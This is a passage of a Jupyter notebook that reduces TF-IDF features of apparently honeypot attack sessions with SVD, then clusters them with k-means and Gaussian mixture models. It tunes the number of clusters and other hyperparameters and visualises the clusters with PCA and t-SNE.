Import previous notebook to use its funcionts


In [1]:
import numpy as np
import pandas as pd
#%run section_1_pre_processing.ipynb #if must use functions defined in first notebook


# **Section 3 – Unsupervised learning – clustering**

The objective is to cluster attack sessions based on the words used within
them. The aim is to identify patterns and group attacks with similar words together.

In [1]:
import joblib as jl
import numpy as np
import pandas as pd
from sklearn.preprocessing import MultiLabelBinarizer
from sklearn.decomposition import TruncatedSVD  # Implementation of SVD used for sparse matrices
import ast
import os

print("=== SECTION 3: UNSUPERVISED LEARNING (CLUSTERING) ===")

# --- 1. LOAD FEATURE MATRIX (X) ---
try:
    X_tfidf = jl.load('X_tfidf_matrix.pkl')
    print(f"1. Feature Matrix (X) loaded. Shape: {X_tfidf.shape}")
except FileNotFoundError:
    raise FileNotFoundError("CRITICAL: 'X_tfidf_matrix.pkl' not found. Please run Section 1.")

# --- 2. DIMENSIONALITY REDUCTION (SVD) ---
print("\n2. Applying Dimensionality Reduction (SVD)")

# n_components=100 is a standard starting point for SVD (Singular Value Decomposition) on text.
# It captures the most significant concepts while discarding noise.
svd = TruncatedSVD(n_components=100, random_state=42)
X_reduced = svd.fit_transform(X_tfidf)

print(f"   -> Data reduced from {X_tfidf.shape[1]} to {X_reduced.shape[1]} dimensions.")
explained_variance = svd.explained_variance_ratio_.sum()
print(f"   -> Total Variance Explained: {explained_variance:.4f} ({(explained_variance*100):.2f}%)")

# Note: Ideally, we want >80% explained variance. If it's too low, increase n_components.

# --- 3. PREPARE TARGET LABELS (y) FOR EVALUATION ---
file_y_path = 'matrice_y.pkl'
file_raw_path = 'df_fingerprint_list.pkl'

try:
    print("\n3. Preparing Labels (y) for External Evaluation...")
    raw_fingerprints = jl.load(file_raw_path)

    if len(raw_fingerprints) > 0 and isinstance(raw_fingerprints[0], str):
        print("   -> Parsing string data...")
        raw_fingerprints = [ast.literal_eval(x) for x in raw_fingerprints]

    mlb = MultiLabelBinarizer()
    mlb.fit(raw_fingerprints)
    class_names = mlb.classes_
    print(f"   -> Classes: {class_names}")

    if os.path.exists(file_y_path):
        print(f"   -> Loading existing '{file_y_path}'...")
        y = jl.load(file_y_path)
    else:
        print(f"   -> Creating and saving '{file_y_path}'...")
        y = mlb.transform(raw_fingerprints)
        jl.dump(y, file_y_path)

    print(f"   -> Labels ready. Shape: {y.shape}")

except FileNotFoundError:
    print("WARNING: Raw data not found. External evaluation will be disabled.")
    y = None
    class_names = []

# --- 4. SAVE REDUCED DATA ---
jl.dump(X_reduced, 'X_reduced_matrix.pkl')
print(f"\n4. Reduced matrix saved to 'X_reduced_matrix.pkl'.")

=== SECTION 3: UNSUPERVISED LEARNING (CLUSTERING) ===
1. Feature Matrix (X) loaded. Shape: (233035, 1000)

2. Applying Dimensionality Reduction (SVD)
   -> Data reduced from 1000 to 100 dimensions.
   -> Total Variance Explained: 0.8869 (88.69%)

3. Preparing Labels (y) for External Evaluation...
   -> Classes: ['Defense Evasion' 'Discovery' 'Execution' 'Harmless' 'Impact' 'Other'
 'Persistence']
   -> Loading existing 'matrice_y.pkl'...
   -> Labels ready. Shape: (233035, 7)

4. Reduced matrix saved to 'X_reduced_matrix.pkl'.


### 3.1 Determine the number of clusters


Number of clusters for k-means

=== 3.1 DETERMINING OPTIMAL NUMBER OF CLUSTERS (k) ===
1. Data loaded: (233035, 100)
2. Analyzing range k=2-15...
   -> k=2: Clustering Error=39787 | Silhouette=0.6889
   -> k=3: Clustering Error=12710 | Silhouette=0.8231
   -> k=4: Clustering Error=9964 | Silhouette=0.8446
   -> k=5: Clustering Error=8078 | Silhouette=0.8604
   -> k=6: Clustering Error=7463 | Silhouette=0.8633
   -> k=7: Clustering Error=6879 | Silhouette=0.6626
   -> k=8: Clustering Error=6473 | Silhouette=0.6685
   -> k=9: Clustering Error=6022 | Silhouette=0.6707
   -> k=10: Clustering Error=5697 | Silhouette=0.6748
   -> k=11: Clustering Error=5644 | Silhouette=0.6784
   -> k=12: Clustering Error=5344 | Silhouette=0.6766
   -> k=13: Clustering Error=5281 | Silhouette=0.6807
   -> k=14: Clustering Error=5105 | Silhouette=0.6882
   -> k=15: Clustering Error=4919 | Silhouette=0.6927

3. Plotting results...




In [2]:
import matplotlib.pyplot as plt
from sklearn.cluster import KMeans
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl

print("=== 3.1 DETERMINING OPTIMAL NUMBER OF CLUSTERS (k) ===")

# --- 1. LOAD REDUCED DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run the SVD step first.")

# --- 2. SETUP PARAMETERS ---
k_range = range(2, 16)
inertia_values = []
silhouette_values = []

# Subsampling for speed
sample_size = 15000
if X_reduced.shape[0] > sample_size:
    rng = np.random.RandomState(42)
    indices = rng.choice(X_reduced.shape[0], sample_size, replace=False)
    X_silhouette_sample = X_reduced[indices]
else:
    X_silhouette_sample = X_reduced

print(f"2. Analyzing range k={k_range[0]}-{k_range[-1]}...")

# --- 3. ITERATIVE CLUSTERING ---
for k in k_range:
    #Fit K-Means
    kmeans = KMeans(n_clusters=k, random_state=42, n_init=10)
    kmeans.fit(X_reduced)

    #Collect Clustering Error (called 'Inertia' in sklearn)
    inertia_values.append(kmeans.inertia_)

    #Collect Silhouette Score
    labels_sample = kmeans.predict(X_silhouette_sample)
    sil_score = silhouette_score(X_silhouette_sample, labels_sample)
    silhouette_values.append(sil_score)

    print(f"   -> k={k}: Clustering Error={kmeans.inertia_:.0f} | Silhouette={sil_score:.4f}")

# --- 4. PLOTTING ---
print("\n3. Plotting results...")
fig, ax1 = plt.subplots(figsize=(12, 6))

# Plot 1: Clustering Error (Elbow Method)
color = 'tab:blue'
ax1.set_xlabel('Number of Clusters (k)', fontsize=12)
ax1.set_ylabel('Clustering Error (Sum of Squared Errors)', color=color, fontsize=12)
ax1.plot(k_range, inertia_values, 'o-', color=color, linewidth=2, label='Clustering Error (Elbow)')
ax1.tick_params(axis='y', labelcolor=color)
ax1.grid(True, which='both', linestyle='--', alpha=0.5)

# Plot 2: Silhouette Score
ax2 = ax1.twinx()
color = 'tab:red'
ax2.set_ylabel('Silhouette Score', color=color, fontsize=12, rotation=270, labelpad=15)
ax2.plot(k_range, silhouette_values, 's-', color=color, linewidth=2, label='Silhouette') # Changed to solid
ax2.tick_params(axis='y', labelcolor=color)

plt.title('Optimal k Analysis: Elbow Method vs Silhouette Score', fontsize=14)
fig.tight_layout()
plt.show()



determine number of clusters for GMM

=== 3.2 DETERMINING OPTIMAL NUMBER OF COMPONENTS (GMM) ===
1. Data loaded: (233035, 100)
2. Analyzing range k=2-15...
   -> k=2: Log-Likelihood=340.6793 | Silhouette=0.6874
   -> k=3: Log-Likelihood=351.5368 | Silhouette=0.8231
   -> k=4: Log-Likelihood=453.1284 | Silhouette=0.6099
   -> k=5: Log-Likelihood=460.7533 | Silhouette=0.6751
   -> k=6: Log-Likelihood=464.0820 | Silhouette=0.6684
   -> k=7: Log-Likelihood=467.5069 | Silhouette=0.6926
   -> k=8: Log-Likelihood=485.3814 | Silhouette=0.6956
   -> k=9: Log-Likelihood=508.4381 | Silhouette=0.6874
   -> k=10: Log-Likelihood=487.3215 | Silhouette=0.7363
   -> k=11: Log-Likelihood=488.0683 | Silhouette=0.7267
   -> k=12: Log-Likelihood=487.8873 | Silhouette=0.7412
   -> k=13: Log-Likelihood=494.8772 | Silhouette=0.7567
   -> k=14: Log-Likelihood=497.5303 | Silhouette=0.7812
   -> k=15: Log-Likelihood=498.4814 | Silhouette=0.7834

3. Plotting results...




In [ ]:
import matplotlib.pyplot as plt
from sklearn.mixture import GaussianMixture
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl

print("=== 3.2 DETERMINING OPTIMAL NUMBER OF COMPONENTS (GMM) ===")

# --- 1. LOAD REDUCED DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    # If the file isn't found, try to use the variable from memory if it exists
    if 'X_reduced' not in locals():
         raise FileNotFoundError("Error: Run the SVD step first to generate X_reduced.")
    else:
         print(f"1. Data loaded from memory: {X_reduced.shape}")

# --- 2. SETUP PARAMETERS ---
k_range = range(2, 16)
log_likelihood_values = []  
silhouette_values = []

# Subsampling for speed (Silhouette is slow on large data)
sample_size = 15000
if X_reduced.shape[0] > sample_size:
    rng = np.random.RandomState(42)
    indices = rng.choice(X_reduced.shape[0], sample_size, replace=False)
    X_silhouette_sample = X_reduced[indices]
else:
    X_silhouette_sample = X_reduced

print(f"2. Analyzing range k={k_range[0]}-{k_range[-1]}...")

# --- 3. ITERATIVE CLUSTERING ---
for k in k_range:
    # Fit GMM
    # n_init=1 is default, but 2 helps avoid local optima
    gmm = GaussianMixture(n_components=k, random_state=42, n_init=2, covariance_type='full')
    gmm.fit(X_reduced)

    
    # gmm.score(X) returns the average log-likelihood per sample
    log_likelihood_values.append(gmm.score(X_reduced))

    # Collect Silhouette Score
    labels_sample = gmm.predict(X_silhouette_sample)
    
    # Check if we actually found > 1 cluster
    if len(set(labels_sample)) > 1:
        sil_score = silhouette_score(X_silhouette_sample, labels_sample)
    else:
        sil_score = -1
        
    silhouette_values.append(sil_score)

    
    print(f"   -> k={k}: Log-Likelihood={log_likelihood_values[-1]:.4f} | Silhouette={sil_score:.4f}")

# --- 4. PLOTTING ---
print("\n3. Plotting results...")
fig, ax1 = plt.subplots(figsize=(12, 6))

# Plot 1: Log-Likelihood 
color = 'tab:blue'
ax1.set_xlabel('Number of Components (k)', fontsize=12)

ax1.set_ylabel('Log-Likelihood', color=color, fontsize=12)

ax1.plot(k_range, log_likelihood_values, 'o-', color=color, linewidth=2, label='Log-Likelihood')
ax1.tick_params(axis='y', labelcolor=color)
ax1.grid(True, which='both', linestyle='--', alpha=0.5)

# Plot 2: Silhouette Score
ax2 = ax1.twinx()
color = 'tab:red'
ax2.set_ylabel('Silhouette Score', color=color, fontsize=12, rotation=270, labelpad=15)
ax2.plot(k_range, silhouette_values, 's-', color=color, linewidth=2, label='Silhouette')
ax2.tick_params(axis='y', labelcolor=color)


plt.title('Optimal GMM Components: Log-Likelihood vs Silhouette Score', fontsize=14)
fig.tight_layout()
plt.show()

### 3.2 Tune hyperparamenter

Hyperparamenter for k-means

In [11]:
from sklearn.cluster import KMeans
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl
import pandas as pd

print("=== 3.2 K-MEANS HYPER-PARAMETER TUNING ===")

# --- 1. LOAD DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run SVD step first.")

# --- 2. DEFINE FIXED PARAMETER ---
BEST_K = 5
print(f"2. Fixing k={BEST_K} based on previous analysis.")

# --- 3.  GRID OF PARAMETERS TO TUNE ---
# We test different initialization strategies and algorithms to avoid local minima

param_grid = [
    {'init': 'k-means++', 'n_init': 10, 'algorithm': 'lloyd'},
    {'init': 'k-means++', 'n_init': 20, 'algorithm': 'lloyd'},
    {'init': 'random',    'n_init': 20, 'algorithm': 'lloyd'},
    {'init': 'k-means++', 'n_init': 10, 'algorithm': 'elkan'},
]

print(f"3. Starting Grid Search on {len(param_grid)} combinations...")
print("   Metric: Silhouette Score (Higher is better)")

# --- 4. SUBSAMPLING FOR EVALUATION ---
# Calculating Silhouette on 180k points for every grid step is too slow.
# We use a fixed validation set of 15k points.
rng = np.random.RandomState(42)
indices = rng.choice(X_reduced.shape[0], 15000, replace=False)
X_val = X_reduced[indices]

results = []

for params in param_grid:
    print(f"   Testing: {params} ...", end=" ")

    # Initialize model
    km = KMeans(n_clusters=BEST_K,
                init=params['init'],
                n_init=params['n_init'],
                algorithm=params['algorithm'],
                random_state=123)

    # Fit on FULL data (training)
    km.fit(X_reduced)

    # Evaluate on VALIDATION set
    labels_val = km.predict(X_val)
    sil = silhouette_score(X_val, labels_val)

    # Store results including Clustering Error (inertia)
    res = params.copy()
    res['silhouette'] = sil
    res['inertia'] = km.inertia_
    results.append(res)

    print(f"Sil={sil:.4f}")

# --- 5. SELECT BEST MODEL ---
results_df = pd.DataFrame(results)
best_run = results_df.loc[results_df['silhouette'].idxmax()]

print("\n=== TUNING RESULTS ===")
print(results_df.sort_values(by='silhouette', ascending=False))

print(f"\n>>> BEST PARAMETERS FOUND:")
print(f"    - Init:      {best_run['init']}")
print(f"    - n_init:    {best_run['n_init']}")
print(f"    - Algorithm: {best_run['algorithm']}")
print(f"    - Score:     {best_run['silhouette']:.4f}")

# --- 6. SAVE FINAL MODEL ---
print("\n4. Retraining and saving best model...")
best_kmeans = KMeans(n_clusters=BEST_K,
                     init=best_run['init'],
                     n_init=int(best_run['n_init']),
                     algorithm=best_run['algorithm'],
                     random_state=123)
best_kmeans.fit(X_reduced)

# Save labels for comparison later
final_labels = best_kmeans.labels_
jl.dump(final_labels, 'kmeans_labels.pkl')
print("   -> Labels saved to 'kmeans_labels.pkl'")

=== 3.2 K-MEANS HYPER-PARAMETER TUNING ===
1. Data loaded: (233035, 100)
2. Fixing k=5 based on previous analysis.
3. Starting Grid Search on 4 combinations...
   Metric: Silhouette Score (Higher is better)
   Testing: {'init': 'k-means++', 'n_init': 10, 'algorithm': 'lloyd'} ... Sil=0.8604
   Testing: {'init': 'k-means++', 'n_init': 20, 'algorithm': 'lloyd'} ... Sil=0.8604
   Testing: {'init': 'random', 'n_init': 20, 'algorithm': 'lloyd'} ... Sil=0.6378
   Testing: {'init': 'k-means++', 'n_init': 10, 'algorithm': 'elkan'} ... Sil=0.8604

=== TUNING RESULTS ===
        init  n_init algorithm  silhouette      inertia
0  k-means++      10     lloyd    0.860424  8077.720046
1  k-means++      20     lloyd    0.860424  8077.720046
3  k-means++      10     elkan    0.860424  8077.720046
2     random      20     lloyd    0.637808  9550.614653

>>> BEST PARAMETERS FOUND:
    - Init:      k-means++
    - n_init:    10
    - Algorithm: lloyd
    - Score:     0.8604

4. Retraining and saving best

tune hyperparameters GMM

In [ ]:
from sklearn.mixture import GaussianMixture
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl
import pandas as pd

print("=== 3.3 GMM HYPER-PARAMETER TUNING (Metric: Log-Likelihood) ===")

# --- 1. LOAD DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    if 'X_reduced' not in locals():
         raise FileNotFoundError("Error: Run SVD step first.")

# --- 2. DEFINE FIXED PARAMETER ---

BEST_K = 5 
print(f"2. Fixing n_components={BEST_K} based on previous analysis.")

# --- 3. GRID OF PARAMETERS TO TUNE ---
param_grid = [
    {'covariance_type': 'full', 'init_params': 'kmeans', 'n_init': 1}, 
    {'covariance_type': 'full', 'init_params': 'random', 'n_init': 5}, 
    {'covariance_type': 'tied', 'init_params': 'kmeans', 'n_init': 1}, 
    {'covariance_type': 'diag', 'init_params': 'kmeans', 'n_init': 1}, 
]

print(f"3. Starting Grid Search on {len(param_grid)} combinations...")
print("   Metric: Silhouette Score & Log-Likelihood")

# --- 4. SUBSAMPLING FOR EVALUATION ---
rng = np.random.RandomState(42)
if X_reduced.shape[0] > 15000:
    indices = rng.choice(X_reduced.shape[0], 15000, replace=False)
    X_val = X_reduced[indices]
else:
    X_val = X_reduced

results = []

for params in param_grid:
    print(f"   Testing: {params} ...", end=" ")

    gmm = GaussianMixture(n_components=BEST_K,
                          covariance_type=params['covariance_type'],
                          init_params=params['init_params'],
                          n_init=params['n_init'],
                          random_state=123)

    # Fit on FULL data
    gmm.fit(X_reduced)

    # Evaluate on VALIDATION set (Silhouette)
    labels_val = gmm.predict(X_val)
    if len(set(labels_val)) > 1:
        sil = silhouette_score(X_val, labels_val)
    else:
        sil = -1

   
    # gmm.score returns average log-likelihood per sample
    log_like = gmm.score(X_reduced)

    # Store results
    res = params.copy()
    res['silhouette'] = sil
    res['log_likelihood'] = log_like # Storing Log-Likelihood
    results.append(res)

    print(f"Sil={sil:.4f} | Log-Like={log_like:.2f}")

# --- 5. SELECT BEST MODEL ---
results_df = pd.DataFrame(results)
# Selecting best based on Silhouette (standard), but showing Log-Like
best_run = results_df.loc[results_df['silhouette'].idxmax()]

print("\n=== TUNING RESULTS ===")
print(results_df.sort_values(by='silhouette', ascending=False))

print(f"\n>>> BEST PARAMETERS FOUND:")
print(f"    - Covariance: {best_run['covariance_type']}")
print(f"    - Init:       {best_run['init_params']}")
print(f"    - n_init:     {best_run['n_init']}")
print(f"    - Score:      {best_run['silhouette']:.4f}")
print(f"    - Log-Like:   {best_run['log_likelihood']:.2f}")

# --- 6. SAVE FINAL MODEL ---
print("\n4. Retraining and saving best model...")
best_gmm = GaussianMixture(n_components=BEST_K,
                           covariance_type=best_run['covariance_type'],
                           init_params=best_run['init_params'],
                           n_init=int(best_run['n_init']),
                           random_state=123)
best_gmm.fit(X_reduced)

# Save labels
final_labels = best_gmm.predict(X_reduced)
jl.dump(final_labels, 'gmm_labels.pkl')
print("   -> Labels saved to 'gmm_labels.pkl'")

=== 3.3 GMM HYPER-PARAMETER TUNING (Metric: Log-Likelihood) ===
1. Data loaded: (233035, 100)
2. Fixing n_components=5 based on previous analysis.
3. Starting Grid Search on 4 combinations...
   Metric: Silhouette Score & Log-Likelihood
   Testing: {'covariance_type': 'full', 'init_params': 'kmeans', 'n_init': 1} ... Sil=0.6751 | Log-Like=460.75
   Testing: {'covariance_type': 'full', 'init_params': 'random', 'n_init': 5} ... Sil=-0.0450 | Log-Like=496.51
   Testing: {'covariance_type': 'tied', 'init_params': 'kmeans', 'n_init': 1} ... Sil=0.8598 | Log-Like=274.87
   Testing: {'covariance_type': 'diag', 'init_params': 'kmeans', 'n_init': 1} ... Sil=0.6819 | Log-Like=464.68

=== TUNING RESULTS ===
  covariance_type init_params  n_init  silhouette  log_likelihood
2            tied      kmeans       1    0.859830      274.871194
3            diag      kmeans       1    0.681895      464.678519
0            full      kmeans       1    0.675137      460.753267
1            full      random 

### 3.3 Visualize the clusters

Visualize the clusters for the k-means

=== 3.3 VISUALIZATION OF K-MEANS CLUSTERS ===
1. Data loaded: (233035, 100)
   Labels loaded: (233035,)

2. Computing PCA (2 Components) for Global Visualization...





3. Computing t-SNE for Local Structure Analysis...
   -> Running t-SNE on 10000 samples.





>>> VISUALIZATION COMPLETE


In [20]:
import matplotlib.pyplot as plt
import seaborn as sns
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.decomposition import PCA
from sklearn.manifold import TSNE

print("=== 3.3 VISUALIZATION OF K-MEANS CLUSTERS ===")

# --- 1. LOAD DATA & LABELS ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    labels = jl.load('kmeans_labels.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
    print(f"   Labels loaded: {labels.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run previous steps (SVD + K-Means) first.")

# Define color palette for 5 clusters
palette = sns.color_palette("bright", 5)

# --- 2. VISUALIZATION A: PCA (Global Structure) ---
print("\n2. Computing PCA (2 Components) for Global Visualization...")
pca = PCA(n_components=2, random_state=42)
X_pca = pca.fit_transform(X_reduced)

# Create DataFrame for Plotting
df_pca = pd.DataFrame(X_pca, columns=['PC1', 'PC2'])
df_pca['Cluster'] = labels

# Plot PCA
plt.figure(figsize=(10, 8))
sns.scatterplot(
    x='PC1', y='PC2',
    hue='Cluster',
    palette=palette,
    data=df_pca,
    legend="full",
    alpha=0.6,
    s=10 # dot size
)
plt.title('K-Means Clusters Visualization using PCA (Global Structure)', fontsize=15)
plt.xlabel(f'Principal Component 1 ({pca.explained_variance_ratio_[0]:.1%} var)')
plt.ylabel(f'Principal Component 2 ({pca.explained_variance_ratio_[1]:.1%} var)')
plt.grid(True, linestyle='--', alpha=0.3)
plt.show()

# --- 3. VISUALIZATION B: t-SNE (Local Structure) ---
print("\n3. Computing t-SNE for Local Structure Analysis...")
# We use a representative subsample (10k points) to visualize density and separation.
sample_size = 10000
rng = np.random.RandomState(42)
indices = rng.choice(X_reduced.shape[0], sample_size, replace=False)

X_sample = X_reduced[indices]
y_sample = labels[indices]

print(f"   -> Running t-SNE on {sample_size} samples.")
tsne = TSNE(n_components=2, random_state=42, n_jobs=-1, perplexity=30)
X_tsne = tsne.fit_transform(X_sample)

# Create DataFrame for Plotting
df_tsne = pd.DataFrame(X_tsne, columns=['Dim1', 'Dim2'])
df_tsne['Cluster'] = y_sample

# Plot t-SNE
plt.figure(figsize=(10, 8))
sns.scatterplot(
    x='Dim1', y='Dim2',
    hue='Cluster',
    palette=palette,
    data=df_tsne,
    legend="full",
    alpha=0.7,
    s=15
)
plt.title(f'K-Means Clusters Visualization using t-SNE (Subsample N={sample_size})', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle='--', alpha=0.3)
plt.show()

print("\n>>> VISUALIZATION COMPLETE")

visualization for GMM

=== 3.4 VISUALIZATION OF GMM CLUSTERS ===
1. Data loaded: (233035, 100)
   Labels loaded: (233035,)
   (Detected 5 clusters for coloring)

2. Computing PCA (2 Components) for Global Visualization...


